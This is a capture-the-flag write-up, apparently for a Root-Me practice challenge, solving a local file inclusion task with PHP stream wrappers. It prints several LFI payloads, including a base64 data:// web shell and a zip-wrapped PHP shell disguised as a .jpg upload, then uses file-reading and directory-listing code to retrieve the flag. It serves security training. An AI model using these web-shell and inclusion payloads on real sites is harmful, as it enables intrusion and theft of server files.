 ## Description
Retrieve the flag.
## Hints 
Abbreviated LFI
## Solution
First, let's follow thefollowing page:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers

#### Wrapper php://filter

 `/index.php?page=php://filter/convert.base64-encode/resource=index.php`

The page returned nothing.

#### Wrapper data://

 `?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=`

The page return: **_page name too long_**

#### Wrapper expect://
 `index.php?page=expect://id`

![image](https://github.com/user-attachments/assets/192b48d3-0e8e-49c9-afac-ed431f0cde94)

#### Wrapper zip://

The page restricts the payload length, so I got the file name short. 

```php
echo "<pre><?php system($_GET['cmd']); ?></pre>" > p.php;
zip p.zip p.php;
mv p.zip a.jpg
```
Upload the archive and access the file using the following URL: `http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/aVK8jSdHa.jpg%23p`

![image](https://github.com/user-attachments/assets/0087c972-8fec-4902-aa2d-2deb97728314)

The `system()` function has been disabled, likely through the `disable_functions` directive in the php.ini configuration file. 

To bypass this restriction, I used another payload:
```php
echo "<pre><?php echo file_get_contents('index.php'); ?></pre>"
```
This returned the source code but nothing seemed to be the flag.

I then modified the PHP script to list all files in the directory, using a code snippet found in https://stackoverflow.com/questions/11457363/get-all-file-names-from-a-directory-in-php
```php
echo '<pre><?php 
$dir = "."; 
if ($handle = opendir($dir)) {
    while (false !== ($file = readdir($handle))) {
        echo $file . "<br>";
    }
    closedir($handle);
} 
?></pre>' > p.php;
zip p.zip p.php;
mv p.zip a.jpg
```
The page return a list of files:

![image](https://github.com/user-attachments/assets/003f0f64-ecdf-4d86-a4b2-c7cb0f40d002)

Then I modified the PHP script to read the contents of the flag file, I used the payload 

```php
echo '<pre><?php echo file_get_contents("flag-mipkBswUppqwXlq9ZydO.php"); ?></pre>'
``` 

and got the flag.




